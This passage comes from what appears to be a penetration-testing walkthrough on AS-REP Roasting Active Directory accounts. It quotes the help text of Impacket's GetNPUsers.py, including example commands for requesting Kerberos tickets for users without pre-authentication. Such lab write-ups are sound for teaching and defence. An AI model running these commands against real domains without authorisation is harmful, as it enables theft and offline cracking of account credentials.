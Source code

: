 Nice! Time to check if any of those usernames is ASRepRoasteable!

###### Exploiting ASRepRoasteable users
[Impacket](https://github.com/SecureAuthCorp/impacket) is a collection of open-source tools for working with network protocols. Impacket's scripts come by default on security-oriented distros like Parrot and Kali. However, installing them is just a matter of cloning the repository if you are using any other distro.

Impacket-collection is a must-have for pentesting Active Directory. You can get more information on what every tool does by having a look at [this link](https://www.secureauth.com/labs/open-source-tools/impacket/).

For ASRepRoasting, we have to use **impacket-GetNPUsers.py** script. 

By typing `impacket-GetNPUsers.py` we can get a help message:

![](https://shroudri.github.io/assets/images/asreproast/11getnpusers.png)


```
There are a few modes for using this script

1. Get a TGT for a user:

        GetNPUsers.py contoso.com/john.doe -no-pass

For this operation you don't need john.doe's password. It is important tho, to specify -no-pass in the script, 
otherwise a badpwdcount entry will be added to the user

2. Get a list of users with UF_DONT_REQUIRE_PREAUTH set

        GetNPUsers.py contoso.com/emily:password or GetNPUsers.py contoso.com/emily

This will list all the users in the contoso.com domain that have UF_DONT_REQUIRE_PREAUTH set. 
However it will require you to have emily's password. (If you don't specify it, it will be asked by the script)

3. Request TGTs for all users

        GetNPUsers.py contoso.com/emily:password -request or GetNPUsers.py contoso.com/emily

4. Request TGTs for users in a file

        GetNPUsers.py contoso.com/ -no-pass -usersfile users.txt

For this operation you don't need credentials.

```

We don't have any credentials yet, so we can only go for the 4th option.

![](https://shroudri.github.io/assets/images/asreproast/12verstappenvulnerable.png)

